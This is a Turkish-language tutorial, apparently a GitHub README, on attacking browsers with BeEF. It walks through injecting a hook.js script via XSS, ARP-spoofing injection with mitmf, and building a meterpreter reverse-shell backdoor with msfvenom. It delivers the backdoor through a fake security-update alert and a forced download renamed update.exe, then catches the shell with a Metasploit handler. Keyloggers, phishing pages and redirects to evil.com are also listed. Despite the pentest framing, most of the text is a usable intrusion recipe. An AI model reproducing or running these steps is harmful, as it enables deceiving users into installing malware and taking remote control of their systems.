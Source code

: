 ### BeEF (Browser Exploitation Framework) Nedir?
BeEF (Browser Exploitation Framework), tarayıcıları hedef alan güvenlik açıklarını test etmek için kullanılan bir sızma testi aracıdır.

### 📌 Ne İşe Yarar?
🔹 XSS açıkları üzerinden tarayıcıyı ele geçirmek

🔹 Hedefin IP, cihaz bilgileri, ağ bağlantıları gibi bilgilerini toplamak

🔹 Tarayıcı üzerinden komut çalıştırarak saldırılar simüle etmek

🔹 Pentest ve güvenlik araştırmalarında kullanılır

### 📌 Nasıl Çalışır?

1️⃣ Hedefin Tarayıcısını Hook'lama
XSS açığı bulunan bir siteye BeEF JavaScript payload’u enjekte edilir.
Kullanıcı bu sayfaya girince tarayıcısı BeEF’e bağlanır.

2️⃣ Tarayıcı Üzerinden Bilgi Toplama ve Exploit Çalıştırma
Kullanıcının IP adresi, işletim sistemi, tarayıcı bilgileri alınır.
Keylogger, sayfa değiştirme, phishing saldırıları gibi testler yapılabilir.
Hedefi Oltaya Takmak

### 2️⃣ Hedef Tarayıcıyı "Hook" Et (Bağlamak)

✅ Hedefin tarayıcısını BeEF’e bağlamak için XSS veya açık bir site kullanılır.

✅ BeEF'in hook.js kodunu hedefte çalıştırmalısın:
```html
html
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Eğer bir web sitesinde XSS açığı bulduysan, yukarıdaki kodu payload olarak enjekte edebilirsin.
🔹 Hedef bu sayfayı açtığında tarayıcısı BeEF’e bağlanır.
```

### 3️⃣ Hedef Tarayıcıya Komut Gönderme

✅ BeEF panelinden hooklanan (bağlanan) tarayıcıyı seç ve aşağıdaki işlemleri yapabilirsin:

🔹 Bilgi Toplama:
Tarayıcı ve işletim sistemi bilgilerini al
Hedefin IP adresini öğren

🔹 Tarayıcı Üzerinde Saldırı Simülasyonu:
Alert pop-up çıkartma:
javascript
alert("Tarayıcınız ele geçirildi!");
Keylogger çalıştırma
Phishing sayfası açma
Sayfa yönlendirme (Redirect)
```javascript
JavaScript Enjeksiyonu
MitM Saldırısı
```
```bash
#python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --inject --js-url
gateway=modem ip
target=hedef ip
(bettercap daha güncel bir araçtır. Genelde artık bettercap kullanılır.)
```
### BeEF Kontrol Paneli – Kısaca Özet
BeEF'in kontrol paneli, bağlanan tarayıcıları yönetmek ve saldırı simülasyonları yapmak için kullanılan bir arayüzdür. http://127.0.0.1:3000/ui/panel adresinden erişilir.

### 📌 BeEF Kontrol Panelinin Bölümleri
## 1️⃣ Online Tarayıcılar (Hooked Browsers)
✅ Bağlanan (hook edilen) tarayıcıları listeler.

✅ Hedefin IP adresi, işletim sistemi, tarayıcı türü ve versiyonu gösterilir.

## 2️⃣ Modüller (Commands)
✅ Hedef tarayıcıda çalıştırılabilecek exploit ve komutları içerir.

✅ Kullanılabilecek bazı modüller:
Alert Box Gönderme (alert("Hacked!"))
Sayfa Yönlendirme (window.location="http://evil.com")
Keylogger (Klavye Dinleme)
Sahte Login Sayfası Gösterme (Phishing)

## 3️⃣ Loglar ve Konsol (Logs & Console)
✅ Çalıştırılan komutların ve hedeften gelen cevapların kaydedildiği bölümdür.

✅ JavaScript kodları girerek hedef tarayıcıda testler yapabilirsin.

## 4️⃣ Ağ Saldırıları (Network Attacks)

✅ Hedef tarayıcı yerel ağda (LAN) çalışıyorsa, yerel cihazları ve portları taramak için kullanılabilir.
### 4️⃣ Hedef Tarayıcıdan Çıkma ve Kapanış

✅ Hedef tarayıcı sayfayı kapatırsa bağlantı kopar.

✅ BeEF’i durdurmak için CTRL + C yaparak terminalden kapatabilirsin.

### 📌 Özet
🚀 BeEF, tarayıcı güvenlik açıklarını test etmek için kullanılır.

✅ XSS açığını kullanarak bir tarayıcıyı "hook" edersin.

✅ Bağlanan tarayıcıda bilgi toplama, yönlendirme ve phishing testleri yapabilirsin.

### BeEF ile Backdoor Gönderme (Kısaca)
BeEF, hedefin tarayıcısını "hook" ettikten sonra çeşitli saldırılar simüle edebilir. Bunlardan biri de bir backdoor dosyasını hedefe iletmek ve çalıştırmasını sağlamaktır.

### 1️⃣ BeEF ile Hedefi "Hook" Et
Öncelikle hedefin tarayıcısını BeEF’e bağlamalısın. Bunun için bir XSS açığı veya hedefin ziyaret ettiği bir sayfaya aşağıdaki hook.js kodunu ekleyebilirsin:
```html
html
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Hedef bu sayfayı açınca tarayıcısı BeEF’e bağlanır.
```

### 2️⃣ Backdoor Payload Hazırla (Metasploit ile)
Metasploit kullanarak bir Windows reverse shell backdoor oluştur:
```bash
bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > backdoor.exe
🔹 LHOST: Kendi IP adresin
🔹 LPORT: Dinleyeceğin port
```

### 3️⃣ BeEF ile Hedefe Backdoor Gönderme
BeEF kontrol paneline gir (http://127.0.0.1:3000/ui/panel) ve "Hooked Browsers" sekmesinden hedefi seç.

✅ Saldırı Modüllerinden "Create Invisible iFrame" Kullan:
Bunu kullanarak arka planda zararlı dosyanın indirildiği bir iFrame oluşturabilirsin:
```javascript
javascript
window.location.href = "http://YOUR_IP/backdoor.exe";

✅ Fake Güncelleme Mesajı ile İndirtme:
Hedefe sahte bir mesaj gösterip backdoor’u indirmesini sağlamak için:
```
```javascript
javascript
alert("Güvenlik güncellemesi gerekli! Güncellemeyi indirmek için Tamam'a tıklayın.");
window.location.href = "http://YOUR_IP/backdoor.exe";
✅ HTML 5 Download API Kullanımı:
```
```javascript
javascript
var link = document.createElement('a');
link.href = 'http://YOUR_IP/backdoor.exe';
link.download = 'update.exe';
document.body.appendChild(link);
link.click();
🔹 Bu yöntem, dosyanın tarayıcı tarafından otomatik indirilmesini sağlar.
```

### 4️⃣ Backdoor’u Dinleme ve Yönetme
Hedef backdoor.exe dosyasını çalıştırırsa, Metasploit ile bağlantıyı dinle:
```bash
bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
exploit
📌 Başarıyla bağlantı kurulduğunda hedef sistem üzerinde kontrol sağlarsın.
```



